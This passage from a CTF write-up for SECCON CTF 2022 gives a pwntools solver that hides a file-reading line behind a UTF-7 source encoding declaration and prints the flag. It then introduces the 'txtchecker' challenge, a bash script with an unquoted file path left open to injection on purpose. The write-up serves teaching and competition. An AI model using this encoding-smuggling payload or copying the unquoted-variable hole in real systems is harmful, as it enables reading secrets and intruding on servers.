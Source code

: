 ### Solver

```python
import os
import pwn

io = pwn.remote(os.getenv("SECCON_HOST"), os.getenv("SECCON_PORT"))

assert b"+AAo-".decode("utf_7") == "\n"

payload = """
# -*- coding: utf_7 -*-
def f(x):
    return x
    #+AAo-print(open("/flag.txt").read())
""".lstrip()

payload += "__EOF__"

io.sendlineafter(b"__EOF__):", payload.encode())

print(io.recvall().decode())
```

### Flag

```
SECCON{UTF7_is_hack3r_friend1y_encoding}
```

## [misc] txtchecker

- 23 teams solved / 193 points
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202211_SECCON_CTF_2022_Quals/misc/txtchecker

Description:

> I'm creating a text file checker. It still in the process of implementation...
>
> ```
> sshpass -p ctf ssh -oStrictHostKeyChecking=no -oCheckHostIP=no ctf@txtchecker.seccon.games -p 2022
> ```

### Overview

Source code (a bash script):
```bash
#!/bin/bash

read -p "Input a file path: " filepath
file $filepath 2>/dev/null | grep -q "ASCII text" 2>/dev/null

# TODO: print the result the above command.
#   $? == 0 -> It's a text file.
#   $? != 0 -> It's not a text file.
exit 0
```
There are only three lines!
The server executes the script when a player logins with SSH.


[^top-1]: Because of my lack of consideration, many players solved this challenge by unintended solutions :cry:
[^spanote-1]: In fact, you can skip this step because bfcache is disabled by [default options](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175) of puppeteer.